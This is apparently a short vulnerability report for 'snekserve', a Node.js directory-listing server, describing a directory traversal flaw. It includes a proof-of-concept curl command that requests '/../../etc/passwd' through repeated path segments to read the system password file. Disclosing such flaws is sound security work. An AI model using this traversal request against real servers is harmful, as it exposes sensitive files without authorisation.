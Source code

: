 # Description

The `snekserve` project is a `directory listing` server which is vulnerable against Directory Traversal, which may allow access to sensitive files and data on the server.
 For example, requesting the following URL: `/../../etc/passwd` would result in `/etc/passwd` leaking.


# POC

  1. Start the server node index.js
  2. `curl -v --path-as-is http://127.0.0.1:8080/../../../../../../../../../../../etc/passwd`
  3. `/etc/passwd` of the current user will be displayed.
